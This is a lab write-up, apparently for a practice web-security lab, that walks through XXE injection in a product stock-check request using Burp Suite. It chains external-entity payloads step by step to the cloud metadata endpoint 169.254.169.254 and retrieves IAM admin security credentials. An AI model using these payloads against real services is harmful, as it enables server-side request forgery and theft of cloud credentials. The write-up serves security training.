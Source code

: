 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/1e344e8d-1ff6-42d1-87a4-f25d25fba282)

Let's check the stock of one of the products.

![2](https://github.com/Knign/Write-ups/assets/110326359/0727cb0b-7aa8-489c-b3b0-e398f1511b2d)

Since we are proxying the requests through Burp Suite, we can go to `Proxy > HTTP History` to view the request.

![3](https://github.com/Knign/Write-ups/assets/110326359/e8793e33-ef0d-4425-8721-f0c9cf59897e)

We can see that the request contains an XML entity.

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater` tab, declare the following internal entity after the XML prologue:

```
<!DOCTYPE test 
[<!ENTITY test SYSTEM "http://169.254.169.254/">]
>
```

![4](https://github.com/Knign/Write-ups/assets/110326359/24d6bb47-0efd-4d29-8d0d-43bc7cf3f83a)

Let's add the `latest` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/">]
```

![5](https://github.com/Knign/Write-ups/assets/110326359/0dacb303-a3b2-43d7-9d88-5e7a28944bcd)

Let's add the `meta-data` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/">]
```

![6](https://github.com/Knign/Write-ups/assets/110326359/3f5f77bf-c17d-4739-8184-e086aaa8b97b)

Let's add the `iam` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/">]
```

![7](https://github.com/Knign/Write-ups/assets/110326359/a83f8f79-75d0-47b1-8880-0ad6b0ed07ce)

Let's add the `credentials` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">]
```

![8](https://github.com/Knign/Write-ups/assets/110326359/cea0c7ba-ce0f-4f36-989f-16c969db0565)

Let's add the `admin` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">]
```

![9](https://github.com/Knign/Write-ups/assets/110326359/d1a73db1-dab4-4fcb-87df-321525a4bf42)

We have solved the lab.

![10](https://github.com/Knign/Write-ups/assets/110326359/cbc85714-d4d5-46dc-b7f0-0c09822d6b2c)
